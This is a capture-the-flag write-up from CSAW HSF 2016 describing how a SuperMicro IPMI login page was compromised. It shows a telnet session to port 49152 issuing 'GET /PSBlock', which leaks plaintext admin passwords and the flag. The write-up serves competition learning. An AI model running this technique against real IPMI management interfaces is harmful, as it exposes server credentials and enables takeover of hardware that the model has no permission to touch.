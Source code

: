 # CSAW HSF 2016 Prelims: IPMI Server Got Owned

**Category:** Network Forensics
**Points:** 300
**Solves:** ?
**Description:**

> We don’t need security on embedded devices anyway, right?
> 
> http://prod_atl_dc3_r49_u23.rogueterminal.com/
> 
> Challenge by Gus Naughton

## Write-up

When we navigate to ``23.226.239.10``, we are greeted with a SuperMicro IPMI server login page. Looking up SuperMicro IPMI vulnerabilities, we stumble upon this link: [http://serverfault.com/questions/606877/how-to-check-if-my-supermicro-ipmi-is-compromised-with-plaintext-admin-password] (http://serverfault.com/questions/606877/how-to-check-if-my-supermicro-ipmi-is-compromised-with-plaintext-admin-password). It details that the plaintext password to the admin interface on IPMI devices can be accessed by connecting to the server motherboard on port 49152 and running ``GET /PSBlock``.

```bash
$ telnet 23.226.239.10 49152
Trying 23.226.239.10...
Connected to 23.226.239.10.
Escape character is '^]'.
ATEN SMASH-CLP System Management Shell, version 1.02
Copyright (c) 2008-2009 by ATEN International CO., Ltd.
All Rights Reserved

GET /PSBlock
=%}?
0adminADMIN**ADMIN**;TTroot**flag{1PM1_1S_MUY_1N$3CUR3_LOPL}**???%?v?i?o???DDD@??
```

### Flag

``flag{1PM1_1S_MUY_1N$3CUR3_LOPL}``

## Other write-ups and resources

### Resources
* [http://serverfault.com/questions/606877/how-to-check-if-my-supermicro-ipmi-is-compromised-with-plaintext-admin-password] (http://serverfault.com/questions/606877/how-to-check-if-my-supermicro-ipmi-is-compromised-with-plaintext-admin-password)

### Other write-ups
* (none yet)


